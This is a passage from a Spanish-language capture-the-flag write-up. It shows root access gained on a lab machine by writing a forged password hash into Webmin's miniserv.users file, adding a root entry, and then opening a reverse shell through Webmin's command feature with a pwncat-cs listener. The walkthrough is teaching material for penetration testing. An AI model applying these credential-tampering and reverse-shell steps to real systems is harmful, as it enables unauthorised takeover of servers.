Esto significa que podemos generar manualmente un hash que corresponda a una contraseña que sepamos y escribir este hash en el archivo de configuración `miniserv.users` por lo cual podríamos cambiar la contraseña de `crow`.

Primero generamos la contraseña.
```console
(remote) crow@manager:/etc/webmin$ openssl passwd pointed
BYxQSqGDPDT9I
```

Y ahora modificamos el archivo de configuración.
```console
(remote) crow@manager:/etc/webmin$ cat miniserv.users
crow:BYxQSqGDPDT9I:1000
```

Y ahora sí que podemos iniciar sesión en la instancia de `Webmin`


## `root` access to Webmin
¿Y ahora qué?

Tampoco tenemos muchas opciones ya que somos un usuario poco privilegiado.
[Leyendo la documentación](https://webmin.com/docs/modules/webmin-users/#about) podemos ver que por defecto existe un usuario llamado `root` o `admin` que tiene acceso a todos los módulos de `Webmin`, entonces mi objetivo ahora mismo es ganar acceso como un usuario privilegiado en el `Webmin`.

Además, la instancia de `Webmin` la está ejecutando el usuario `root`.


Ejecutando `pspy64` podemos ver que cada X tiempo se ejecuta un script que reinicia el servicio `Webmin`, esto nos viene perfecto ya que como tenemos acceso al archivo de configuración `miniserv.users` podríamos añadir al usuario `root` con el hash que hemos generado anteriormente y entonces cuando el servicio se reinicie podríamos iniciar sesión como `root`.

Modificamos el archivo `miniserv.users` y añadimos al usuario `root`
```console
(remote) crow@manager:/etc/webmin$ cat miniserv.users
crow:BYxQSqGDPDT9I:1000
root:BYxQSqGDPDT9I:1000
```

Y ahora si iniciamos sesión como `root:pointed`...


Investigando un poco las opciones de `Webmin` (nunca lo había usado), vi la siguiente opción.


De esta forma podemos ejecutar comandos a nivel de sistema.


Para mayor comodidad me puse en escucha con `pwncat-cs` por el puerto 443 y me envié una reverse shell.
```console
pwncat-cs -lp 443
```

Nos enviamos la reverse shell.


```console
17:33:27] received connection from 192.168.2.8:45732                                                                                                                                                                           bind.py:84
[17:33:28] 192.168.2.8:45732: registered new host w/ db                                                                                                                                                                     manager.py:957
(local) pwncat$
(remote) root@manager:/root# id
uid=0(root) gid=0(root) groups=0(root)
(remote) root@manager:/root# ls -la
total 32
drwx------  4 root root 4096 Nov 29 14:31 .
drwxr-xr-x 18 root root 4096 Nov 29 11:52 ..
lrwxrwxrwx  1 root root    9 Apr 23  2023 .bash_history -> /dev/null
-rw-------  1 root root 3526 Jan 15  2023 .bashrc
drwx------  3 root root 4096 Nov 29 14:18 .gnupg
drwxr-xr-x  3 root root 4096 Nov 29 14:30 .local
-rw-------  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Nov 28  2023 .selected_editor
-r--------  1 root root   33 Nov 29 14:31 root.txt
```

Podemos leer la flag de `root`
```console
(remote) root@manager:/root# cat root.txt
a63b115640f6466...
```

¡Y ya estaría!

Happy Hacking! 🚀